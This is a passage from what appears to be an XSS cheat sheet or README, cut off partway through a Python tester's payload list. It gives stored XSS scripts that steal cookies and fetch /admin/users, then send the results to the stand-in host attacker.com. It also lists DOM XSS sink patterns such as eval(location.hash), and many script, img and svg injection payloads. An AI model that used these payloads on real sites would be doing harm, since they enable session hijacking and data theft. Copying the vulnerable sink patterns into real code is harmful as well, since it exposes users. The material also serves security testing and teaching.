 ### 💾 Stored XSS
```html
<!-- Persistent XSS payloads -->
<script>
document.cookie="session="+document.cookie;
new Image().src="http://attacker.com/steal.php?cookie="+document.cookie;
</script>

<!-- Advanced payloads -->
<script>
fetch('/admin/users')
.then(response => response.text())
.then(data => {
    new Image().src = 'http://attacker.com/data.php?data=' + btoa(data);
});
</script>
```

### 🔧 DOM-based XSS
```javascript
// DOM XSS vulnerable code patterns
document.write(location.hash.substring(1));
element.innerHTML = location.search.substring(1);
eval(location.hash.substring(1));

// DOM XSS payloads
#<script>alert('DOM XSS')</script>
#<img src=x onerror=alert('DOM XSS')>
```

</div>

<div>

## 🛠️ XSS Testing Tools and Techniques

### 🎯 Automated XSS Detection
```python
# XSS testing framework
import requests
from urllib.parse import quote
import re

class XSSTester:
    def __init__(self, target_url):
        self.target_url = target_url
        self.session = requests.Session()
        self.payloads = self.load_xss_payloads()
        self.found_vulnerabilities = []
    
    def load_xss_payloads(self):
        """Load XSS testing payloads"""
        return [
            '<script>alert("XSS")</script>',
            '<img src=x onerror=alert("XSS")>',
            '<svg onload=alert("XSS")>',
            '"><script>alert("XSS")</script>',
            "'><script>alert('XSS')</script>",
            '<iframe src="javascript:alert(\'XSS\')">',
            '<body onload=alert("XSS")>',
            '<script>alert(String.fromCharCode(88,83,83))</script>',
            '<script>alert(/XSS/)</script>',
            '<ScRiPt>alert("XSS")</ScRiPt>',
            '<script>alert`XSS`</script>'
```